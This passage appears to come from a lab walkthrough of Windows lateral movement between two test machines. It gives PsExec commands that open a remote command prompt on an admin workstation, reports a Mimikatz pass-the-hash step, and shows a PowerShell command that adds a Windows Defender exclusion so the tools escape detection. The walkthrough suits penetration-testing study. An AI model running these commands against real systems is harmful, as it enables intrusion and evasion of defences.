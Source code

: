 **Command:**

In **cmd**, use

```bash
%USERPROFILE%\SysinternalsSuite\psexec.exe -r processname /accepteula \\192.168.56.30 cmd.exe
```

In **PowerShell**, use

```bash
& $HOME\SysinternalsSuite\psexec.exe -r processname /accepteula \\192.168.56.30 cmd.exe
```

**Explanation:**

- `psexec.exe`: Executes processes on remote systems.
- `\\192.168.56.30`: Specifies the target machine.
- `-r processname`: Provides a custom process name to bypass restrictions.
- `cmd.exe`: The command to execute on the remote system.

**Achieved Result:**

- A command prompt running on `win10adm` will open.
- You can now execute commands directly on the admin workstation.

We've demonstrated how to use Mimikatz for a pass-the-hash attack to achieve lateral movement from `win10client` to `win10adm` by exploiting a reused Administrator password.

---

### Transferring Tools

In this process, we will use **Mimikatz** to facilitate lateral movement between two systems: `win10client` (192.168.56.40) and `win10adm` (192.168.56.30). We'll open two command prompt windows from the **Mimikatz** session on `win10client`. One of these command prompt windows will use **PsExec** to escalate privileges and become the `win10adm` administrator. We will refer to these command prompt windows throughout the documentation as **win10client** and **win10adm**, respectively.

1. **Exclude the Home Directory from Antivirus Scanning:**

   - Add the newly created directory to Windows Defender’s exclusion list to avoid detection of the tools.

   **Command (win10adm Window):**

   ```bash
   powershell -c "Add-MpPreference -ExclusionPath '%USERPROFILE%'"
   ```

   **Explanation:**

   - `Add-MpPreference`: Modifies Windows Defender preferences.
   - `-ExclusionPath`: Specifies `C:\Users\Administrator\` as an exclusion from antivirus scanning, helping to avoid detection of the tools.

2. **Map the `C$` Administrative Share of `win10adm`:**

   - Map the `C$` administrative share of `win10adm` to a local drive (`X:`) on `win10client` to enable file transfers.
